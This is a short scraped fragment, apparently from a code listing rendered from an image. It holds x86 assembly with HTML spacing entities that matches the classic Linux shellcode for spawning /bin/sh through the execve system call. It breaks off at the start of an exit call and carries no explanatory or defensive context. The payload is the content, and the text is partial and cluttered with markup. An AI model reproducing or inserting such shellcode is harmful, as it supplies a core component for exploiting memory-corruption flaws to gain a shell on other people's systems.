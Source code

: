 &nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;popl&nbsp; &nbsp;%esi

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,0x8(%esi)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;xorl&nbsp; &nbsp;%eax,%eax

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;%eax,0x7(%esi)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%eax,0xc(%esi)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0xb,%al

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,%ebx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0x8(%esi),%ecx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0xc(%esi),%edx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;xorl&nbsp; &nbsp;%ebx,%ebx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%ebx,%eax


